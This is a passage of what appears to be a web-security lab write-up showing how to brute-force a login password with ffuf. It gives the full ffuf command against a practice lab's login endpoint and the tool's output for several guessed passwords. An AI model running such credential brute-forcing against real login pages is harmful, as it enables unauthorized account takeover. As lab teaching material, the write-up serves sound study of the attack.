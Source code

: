 ![alt text](image.png)

---

### Brute-forcing user’s password

By having previous knowledge of a username and a list of possible passwords, an attacker could be able to guess the correct password with brute-force scripts. In the following example, ffuf is used in order to perform the attack and get information about the responses for each password in the provided wordlist.

```bash
$ ffuf -u https://0abe006d04dc5ca680dcdab900bd0038.web-security-academy.net/login 
--data "username=as&password=FUZZ" -H "Content-Type: application/x-www-form-urlencoded" 
-X POST -x http://127.0.0.1:8080 -w ~/tools/wordlists/burp/password.txt -mc all
```
```

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.1.0
________________________________________________

 :: Method           : POST
 :: URL              : https://0abe006d04dc5ca680dcdab900bd0038.web-security-academy.net/login
 :: Wordlist         : FUZZ: /home/zetsu/tools/wordlists/burp/password.txt
 :: Header           : Content-Type: application/x-www-form-urlencoded
 :: Data             : username=as&password=FUZZ
 :: Follow redirects : false
 :: Calibration      : false
 :: Proxy            : http://127.0.0.1:8080
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: all
________________________________________________

qazwsx                  [Status: 200, Size: 3248, Words: 1329, Lines: 66]
111111                  [Status: 200, Size: 3235, Words: 1320, Lines: 65]
123321                  [Status: 200, Size: 3251, Words: 1329, Lines: 66]
zxcvbnm                 [Status: 200, Size: 3251, Words: 1329, Lines: 66]
```